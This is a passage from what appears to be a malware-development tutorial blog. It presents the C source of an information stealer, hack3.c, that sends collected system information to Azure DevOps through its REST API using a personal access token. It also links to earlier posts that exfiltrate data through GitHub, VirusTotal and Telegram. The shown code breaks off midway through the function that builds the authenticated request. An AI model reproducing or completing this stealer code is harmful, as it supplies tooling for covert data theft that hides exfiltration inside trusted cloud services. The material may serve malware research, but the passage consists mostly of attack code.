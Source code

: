 Now our PoC creates an artifact in the cloud:     

![malware](/assets/images/171/2025-08-11_20-25.png){:class="img-responsive"}    

### practical example 3: stealer

Here we'll simulate a scenario where system information is sent to Azure DevOps like before: [Github API](/malware/2025/01/19/malware-tricks-44.html), [VirusTotal](/malware/2024/06/25/malware-trick-41.html) or [Telegram](/malware/2024/06/16/malware-trick-40.html).      

The full source code is looks like this `hack3.c`:    

```cpp
/*
 * hack3.c
 * Azure DevOps REST API stealer
 * author @cocomelonc
 */
#include <windows.h>
#include <winhttp.h>
#include <wincrypt.h>
#include <iphlpapi.h>
#include <stdio.h>

#pragma comment(lib, "winhttp.lib")
#pragma comment(lib, "iphlpapi.lib")
#pragma comment(lib, "crypt32.lib")

int sendToAzure(const char* project, const char* pat, const char* title, const char* description) {
  HINTERNET hSession, hConnect, hRequest;
  char authHeader[512];
  char jsonBody[10000];

  DWORD bytesRead;
  char buffer[8192];

  // construct json body
  snprintf(jsonBody, sizeof(jsonBody),
    "[{\"op\":\"add\",\"path\":\"/fields/System.Title\",\"value\":\"%s\"},"
    "{\"op\":\"add\",\"path\":\"/fields/System.Description\",\"value\":\"%s\"}]",
    title, description);

  // encode PAT to base64 (PAT without username
  // for Azure DevOps ":PAT")
  char patAuth[256];
  snprintf(patAuth, sizeof(patAuth), ":%s", pat);

  DWORD patLen = lstrlenA(patAuth);
  DWORD base64Len = 0;
```